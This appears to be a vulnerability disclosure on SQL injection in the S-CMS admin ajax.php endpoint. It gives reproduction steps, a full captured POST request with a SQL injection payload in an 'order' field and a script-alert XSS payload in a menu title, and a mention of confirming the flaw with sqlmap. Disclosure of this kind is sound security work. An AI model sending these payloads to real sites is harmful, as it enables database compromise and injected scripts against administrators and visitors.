 ### Vulnerability Analysis
In the file \qpqywz-v5.0.0325\4.edu.scms5\admin\ajax.php, the parameter $sql is not strictly filtered.
<img width="418" alt="图片" src="https://user-images.githubusercontent.com/128341787/226555568-f9c8620f-7a87-4757-ae74-8262407eae96.png">
### Vulnerability verification

Log in to the background, and at the menu management module - New menu, add a menu to grab data packets and test the data packets.
<img width="413" alt="图片" src="https://user-images.githubusercontent.com/128341787/226555859-4f0bffe4-5269-411b-a299-658a8925d64b.png">

<img width="413" alt="图片" src="https://user-images.githubusercontent.com/128341787/226555906-e11210b9-f444-4b69-9f37-ab173142b8df.png">



Obtain the request package and response package as follows

```
POST /admin/ajax.php?action=save&type=menu&lang=0 HTTP/1.1
Host: s-cms
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 5035
Origin: http://s-cms
Connection: close
Referer: http://s-cms/admin/
Cookie: count_all=0; authx=; userx=; passx=; user=admin; pass=e317896f881c24dd527ea70a654d0a00; A_type=1; auth=1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1; newsauth=all; productauth=all; textauth=all; formauth=all; bbsauth=all; add=%E6%9C%AC%E5%9C%B0%E6%9C%AC%E5%9C%B0%E6%9C%AC%E5%9C%B0; PHPSESSID=d137s9gahccif2r0eif5pt918e
order_1=1' or 1=0 &title_1=%E7%BD%91%E7%AB%99%E9%A6%96%E9%A1%B5&entitle_1=index&url_1=&hide_1%5B%5D=0&sub_1=0&order_67=1&title_67=%3Cscript%3Ealert('XSS')%3C%2Fscript%3E&entitle_67=%3Cbr+%2F%3E%3Cb%3EDeprecated%3C%2Fb%3E%3A+Automatically+populating+%24HTTP_RAW_POST_DATA+is+deprecated+and+will+be+removed+in+a+future+version.+To+avoid+this+warning+set+'always_populate_raw_post_data'+to+'-1'+in+php.ini+and+use+the+php%3A%2F%2Finput+stream+instead.+in+%3Cb%3EUnknown%3C%2Fb%3E+on+line+%3Cb%3E0%3C%2Fb%3E%3Cbr+%2F%3E%3Cbr+%2F%3E%3Cb%3EWarning%3C%2Fb%3E%3A+Cannot+modify+header+information+-+headers+already+sent+in+%3Cb%3EUnknown%3C%2Fb%3E+on+line+%3Cb%3E0%3C%2Fb%3E%3Cbr+%2F%3E%3Cbr+%2F%3E%3Cb%3EWarning%3C%2Fb%3E%3A+Cannot+modify+header+information+-+headers+already+sent+in+%3Cb%3EC%3Aphpstudy_proWWWS-CMSfunctionconn.php%3C%2Fb%3E+on+line+%3Cb%3E3%3C%2Fb%3E%3Cbr+%2F%3E%3Cbr+%2F%3E%3Cb%3EWarning%3C%2Fb%3E%3A+session_start()%3A+Cannot+send+session+cache+limiter+-+headers+already+sent+in+%3Cb%3EC%3Aphpstudy_proWWWS-CMSfunctionconn.php%3C%2Fb%3E+on+line+%3Cb%3E4%3C%2Fb%3E%3Cbr+%2F%3E11&url_67=&hide_67%5B%5D=0&sub_67=0&order_41=2&title_41=%E5%AD%A6%E6%A0%A1%E6%A6%82%E5%86%B5&entitle_41=General+situation+of+school&url_41=&hide_41%5B%5D=0&sub_41=0&order_42=1&title_42=%E5%AD%A6%E6%A0%A1%E7%AE%80%E4%BB%8B&entitle_42=School+profiles&url_42=&hide_42%5B%5D=0&sub_42=41&order_43=2&title_43=%E5%8A%9E%E5%AD%A6%E7%90%86%E5%BF%B5&entitle_43=School+running+idea&url_43=&hide_43%5B%5D=0&sub_43=41&order_44=3&title_44=%E7%BB%84%E7%BB%87%E6%9C%BA%E6%9E%84&entitle_44=Organization&url_44=&hide_44%5B%5D=0&sub_44=41&order_45=4&title_45=%
```


Use the tool sqlmap to verify that SQL injection exists

<img width="402" alt="图片" src="https://user-images.githubusercontent.com/128341787/226559684-a9c7ea43-4b33-49ff-87d7-7840e01e79ab.png">

<img width="402" alt="图片" src="https://user-images.githubusercontent.com/128341787/226559705-173a7047-8311-41be-bc53-7c563e22a6c5.png">


